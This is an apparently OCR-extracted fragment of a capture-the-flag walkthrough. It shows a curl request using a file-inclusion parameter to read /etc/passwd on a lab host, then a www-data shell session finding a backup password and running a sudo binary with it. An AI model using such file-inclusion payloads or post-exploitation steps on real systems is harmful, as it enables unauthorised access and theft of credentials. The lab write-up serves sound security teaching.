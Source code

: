 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
www-data\@ubuntu:/opt/backup\$ ls -laht

ls -laht

total 12K

drwxr-xr-x 2 root root 4.0K Aug 30 09:08 server_database

drwxr-xr-x 3 root root 4.0K Aug 30 09:07 .

drwxr-xr-x 3 root root 4.0K Aug 30 09:07 ..

www-data\@ubuntu:/opt/backup\$ cd server_database

cd server_database

cat pwww-data\@ubuntu:/opt/backup/server_database\$ ls -laht

ls -laht

total 12K

drwxr-xr-x 2 root root 4.0K Aug 30 09:08 .

\-rw-r--r-- 1 root root 75 Aug 30 09:08 backup_pass

\-rw-r--r-- 1 root root 0 Aug 30 09:07 {hello.8}

drwxr-xr-x 3 root root 4.0K Aug 30 09:07 ..

www-data\@ubuntu:/opt/backup/server_database\$ cat \*

cat \*

your password for backup_database file enc is

"backup_password"

Enjoy!

Once the right password is provided, the enc file creates 2 files: key.txt and
enc.txt.

www-data\@ubuntu:/home/saket\$ sudo /home/saket/enc

sudo /home/saket/enc

enter password: backup_password

backup_password

good

www-data\@ubuntu:/home/saket\$ ls -laht

ls -laht

total 44K

\-rw-r--r-- 1 root root 123 Sep 14 10:03 key.txt

drwxr-xr-x 2 root root 4.0K Sep 14 10:03 .

```